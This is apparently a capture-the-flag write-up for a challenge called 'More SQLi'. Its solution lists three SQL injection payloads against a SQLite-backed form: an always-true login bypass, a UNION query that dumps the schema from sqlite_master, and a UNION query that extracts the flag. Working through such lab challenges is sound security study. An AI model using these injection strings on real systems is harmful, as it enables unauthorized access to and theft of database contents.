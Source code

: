 # More SQLi

## Solution

' OR 1=1 --

<img src="more_sqlite1.png" width="500" />

' union select sql,1,1 from sqlite_master --

<img src="sqlite2.png" width="500" />

' union select id,flag,1 from more_table --

<img src="sqlite3.png" width="500" />

## References

- [SQLite: System Tables](https://www.techonthenet.com/sqlite/sys_tables/index.php)